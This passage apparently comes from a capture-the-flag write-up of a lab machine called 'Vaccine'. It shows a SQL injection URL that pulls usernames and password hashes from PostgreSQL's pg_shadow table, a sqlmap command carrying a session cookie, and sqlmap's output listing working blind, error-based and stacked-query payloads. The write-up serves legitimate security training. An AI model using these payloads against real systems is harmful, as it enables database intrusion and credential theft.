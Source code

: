 ![image-20231122092658294](./Vaccine.assets/image-20231122092658294.png)

- get username and encrypted password, `http://10.129.103.216/dashboard.php?search=XXX'; select 1,usename,usesuper,passwd,usesysid from pg_catalog.pg_shadow -- -`

![image-20231122092743311](./Vaccine.assets/image-20231122092743311.png)

### sqlmap

```bash
$ sqlmap -u 'http://10.129.103.216/dashboard.php?search=XXX' --cookie="PHPSESSID=msujkn8q27o5r35u5nep9l1f16" --batch --level 5

[03:06:52] [INFO] GET parameter 'search' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 131 HTTP(s) requests:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: search=XXX' AND 2841=(SELECT (CASE WHEN (2841=2841) THEN 2841 ELSE (SELECT 8598 UNION SELECT 2403) END))-- XznC

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=XXX' AND 5770=CAST((CHR(113)||CHR(113)||CHR(107)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (5770=5770) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(98)||CHR(112)||CHR(122)||CHR(113)) AS NUMERIC)-- LnCN

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=XXX';SELECT PG_SLEEP(5)--

```